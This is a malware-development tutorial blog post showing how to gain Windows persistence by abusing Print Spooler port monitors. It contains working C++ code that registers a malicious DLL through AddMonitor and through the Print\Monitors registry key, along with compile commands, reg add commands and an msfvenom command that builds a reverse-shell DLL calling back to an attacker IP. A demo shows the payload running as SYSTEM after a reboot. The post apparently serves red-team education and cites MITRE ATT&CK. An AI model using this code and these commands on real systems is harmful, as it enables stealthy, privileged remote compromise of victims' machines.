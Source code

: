 ## 49. malware development: persistence - part 8. Port monitors. Simple C++ example.

![pers](./images/59/2022-06-20_19-35.png){width="80%"}    

This post is the result of self-researching one of the interesting malware persistence trick: Port monitors.    

### port monitors

Port Monitor refers to the Windows Print Spooler Service or `spoolv.exe` in this post. When adding a printer port monitor, a user (or an attacker) is able to add an arbitrary dll that serves as the *"monitor"*.    

There are essentially two ways to add a port monitor, also known as your malicious DLL: through the Registry for persistence or a custom Windows application (`AddMonitor` function) for immediate dll execution.    

### adding monitor

Using the Win32 API, specifically the `AddMonitor` function of the Print Spooler API:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

it is possible to add an arbitrary monitor DLL immediately while the system is running. Note that you will need local administrator privileges to add the monitor.    

For example, source code of our monitor:    

```cpp
/*
monitor.cpp
windows persistence via port monitors
register the monitor port
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}

```

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwinspool
```

![pers](./images/59/2022-06-20_08-17.png){width="80%"}    

Also, create our "evil" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](./images/59/2022-06-20_19-24.png){width="80%"}    

So, compiling the code will produce an executable (`monitor.exe` in my case) that will register the malicious DLL (`evil2.dll`) on the system.    

### demo for add "monitor"

Copy files and run:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](./images/59/2022-06-20_19-28.png){width="80%"}    

### registry persistence

A list of sub-key port monitors can be found within the        
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`       
node. 
Each key should have a `REG_SZ` entry containing a `Drivers` DLL. At system startup, each of these DLLs will be executed as `SYSTEM`.    

First of all, before malicious actions, check sub keys:

```powershell
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors" \
/s
```

![pers](./images/59/2022-06-20_15-48.png){width="80%"}    

Then, add sub key `Meow` and `Driver` value:    

```powershell
reg add \
"HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow"
 /v "Driver" /d "evil2.dll" /t REG_SZ
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors"
 /s
```

![pers](./images/59/2022-06-20_18-17.png){width="80%"}    

As you can see, everything is completed correctly. Then restart victim's machine:    

![pers](./images/59/2022-06-20_18-17_1.png){width="80%"}    

![pers](./images/59/2022-06-20_18-17_2.png){width="80%"}    

And after a few minutes:    

![pers](./images/59/2022-06-20_19-30.png){width="80%"}    

![pers](./images/59/2022-06-20_19-31.png){width="80%"}    

Let's go to check `Network` tab in Process Hacker 2:    

![pers](./images/59/2022-06-20_19-34.png){width="80%"}    

We can see that the `evil2.dll` is being accessed by the `spoolsv.exe (PID: 4616)`, which eventually spawns a `rundll32` with our payload, that initiates a connection back to the attacker:     

![pers](./images/59/2022-06-20_19-33.png){width="80%"}    

For cleanup, after end of experiments, run:

```powershell
Remove-ItemProperty -Path \
"HKLM:\System\CurrentControlSet\Control\Print\Monitors\
Meow" -Name "Driver"
```

![pers](./images/59/2022-06-20_21-22.png){width="80%"}    

My "dirty PoC" for registry persistence:    

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, 
    (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

During Defcon 22, Brady Bloxham [demonstrated](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) this persistence technique. This method requires Administrator privileges and the DLL must be saved to disk.   
The question remains whether any APTs uses this technique in the wild.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[source code on Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   
